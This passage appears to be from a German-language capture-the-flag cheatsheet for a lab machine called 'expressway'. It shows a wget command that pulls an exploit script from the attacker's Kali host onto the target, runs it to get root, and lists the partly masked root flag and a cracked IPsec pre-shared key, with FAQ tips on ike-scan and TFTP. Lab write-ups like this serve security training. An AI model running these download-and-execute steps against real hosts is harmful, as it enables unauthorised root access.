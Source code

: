 3. Auf dem Zielhost (als verwundbarer Benutzer) herunterladen und ausführen:
```bash
# auf dem Ziel (ike@expressway)
wget http://<kali_ip>:8000/exploit.sh -O /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh
```

Beispielausgabe (nach erfolgreichem Exploit):
```text
root@expressway:/# ls /root
root.txt
root@expressway:/root# cat root.txt
daba3be7b1974359f30c6a******
```
---

# Flags / Artefakte
- `root.txt` (Beispielinhalt, nur gekürzt in diesem Cheatsheet): `daba3be7b1974359f30c6a******`
- User: `ike`
- Gefundene Konfig-Datei: `ciscortr.cfg`
- Gefundene PSK (gecrackt): `freakingrockstarontheroad`

---

# Kurz-FAQ / Hinweise

- **Warum `ike-scan`?**  
  `ike-scan` hilft, IKE/IPsec Endpunkte zu fingerprinten und Aggressive Mode Handshakes für Offline-Cracking zu sammeln.

- **Warum TFTP interessant?**  
  TFTP wird oft in Netzwerkgeräten (Router, Switches, Telefonie) für Konfigurations- oder Firmware-Backups verwendet. Unverschlüsselte Konfigurationen enthalten oft Credentials.

- **UDP Scans sind langsam — was tun?**  
  Nutze `--top-ports` für erste Checks, erhöhe Zeitouts (`--host-timeout`, `--max-retries`) oder verwende gezielte Probe-Tools (z. B. `sipvicious`, `ike-scan`, `tftp` client) für einzelne Dienste.

---
